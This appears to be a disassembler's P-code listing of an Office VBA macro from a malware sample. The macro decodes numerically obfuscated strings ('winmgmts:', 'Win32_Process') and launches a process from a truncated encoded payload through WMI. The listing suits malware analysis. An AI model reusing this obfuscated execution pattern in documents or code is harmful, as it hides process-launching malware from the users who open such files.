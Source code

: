 ```
Line #20:
        EndFunc
Line #21:
Line #22:
        FuncDefn (Function receive(conceive))
Line #23:
        Do
Line #24:
        Ld grieve
        Ld conceive
        ArgsLd retrieve 0x0001
        ArgsLd achieve 0x0001
        Add
        St grieve
Line #25:
        Ld conceive
        ArgsLd perceive 0x0001
        St conceive
Line #26:
        Ld conceive
        FnLen
        LitDI2 0x0000
        Gt
        LoopWhile
Line #27:
        Ld grieve
        St receive
Line #28:
        EndFunc
Line #29:
Line #30:
        FuncDefn (Function MyMacro())
Line #31:
        Dim
        VarDefn thieve (As String)
Line #32:
        Dim
        VarDefn sleeve (As String)
Line #33:
Line #34:
        LitStr 0x0306 "12812713511713013112011712412404805608...."
        St thieve
Line #35:
        Ld thieve
        ArgsLd receive 0x0001
        St sleeve
Line #36:
        Ld sleeve
        Ld reprieve
        Ld naive
        Ld believe
        LitStr 0x0027 "103121126067066111096130127115117131131"
        ArgsLd receive 0x0001
        LitStr 0x001B "135121126125119125132131074"
        ArgsLd receive 0x0001
        ArgsLd GetObject 0x0001
        ArgsMemLd Get 0x0001
        ArgsMemCall Create 0x0004
Line #37:
Line #38:
        EndFunc
```  